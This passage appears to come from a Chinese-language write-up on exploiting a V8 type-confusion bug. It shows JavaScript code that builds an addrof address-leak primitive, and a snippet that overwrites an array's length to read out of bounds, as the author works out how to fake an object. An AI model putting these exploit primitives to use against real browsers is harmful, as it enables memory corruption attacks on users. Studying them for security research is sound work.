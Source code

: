 ```javascript
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    return a[0];
}

for(var i = 0;i < 60000;i++)
    foo(zoo);

function addrof(obj){
    bar[0] = obj;
    let addr = f2i(foo(bar));
    return addr & 0xffffffffn;
}

var test_obj = {x:1,y:2};
%DebugPrint(test_obj);

console.log(hex(addrof(test_obj)));
```

想要伪造一个对象，我们需要泄露出相对应对象的map，但是前面的addrof只能泄露变量的地址，做不到泄露出对象的map

这里卡住了，，，

思来想去，想到一开始我们不是把Array.length当作a.x返回了，那我直接写它是不是等于把Array.length直接给改了，带着这个思路：

```javascript
function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    a.x = 30;
}

var bar = {
    x : 1,
    y : 2
};

var zoo = [1.1,2.2,3.3,4.4];
var leakme = [6.6,7.7,8.8,9.9];

for(var i = 0;i < 60000;i++)
    foo(bar);
foo(zoo);
console.log(zoo.length);
for(var i = 0;i < zoo.length;i++){
    console.log(zoo[i]);
}
```
